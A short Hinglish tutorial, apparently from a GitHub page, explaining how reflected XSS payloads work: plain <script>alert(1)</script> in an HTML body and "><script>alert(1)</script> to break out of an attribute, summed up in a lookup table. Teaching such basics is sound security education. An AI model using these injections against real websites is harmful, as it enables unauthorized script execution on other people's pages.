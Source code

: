 # Simple Logic

| Part          | Kaam                                                             |
| ------------- | ---------------------------------------------------------------- |
| `"`           | Attribute (jaise alt, title, etc.) band karne ke liye            |
| `>`           | Tag close karne ke liye (jaise `<img>`)                          |
| Baaki payload | Apna code inject karne ke liye (jaise `<script>`, `<svg>`, etc.) |

---

### ✅ 1. Jab HTML aisa ho:

```<div>YAHAN_INPUT_AAYEGA</div>```

Toh tu seedha yeh de sakta hai:

```<script>alert(1)</script>```

Final HTML:

```<div><script>alert(1)</script></div>```

### ➡️ Kaam karega! Kyun?
Kyunkay tu HTML body mein ho, koi attribute nahi hai, toh <script> direct inject ho jaata hai.

---

### ❌ 2. Jab HTML aisa ho:

```<img src="x" alt="YAHAN_INPUT_AAYEGA">```

Toh ab agar tu sirf script tag de de, toh wo attribute ke andar hi reh jaayega — browser ignore kar dega.

---

### ✅ Toh ab tu kya karega?
Tu yeh dega:

```"><script>alert(1)</script>```
Toh HTML banega:

```<img src="x" alt="">```
```<script>alert(1)</script>```

- ➡️ Ab attribute close ho gaya
- ➡️ <img> tag band ho gaya
- ➡️ Tera <script> browser ne run kar diya

---

### Final Formula

| Situation                                                | Kya Inject Karna Hai          |
| -------------------------------------------------------- | ----------------------------- |
| Input directly tag ke andar ho (like `<div>INPUT</div>`) | `<script>alert(1)</script>`   |
| Input attribute ke andar ho (like `alt="INPUT"`)         | `"><script>alert(1)</script>` |

---


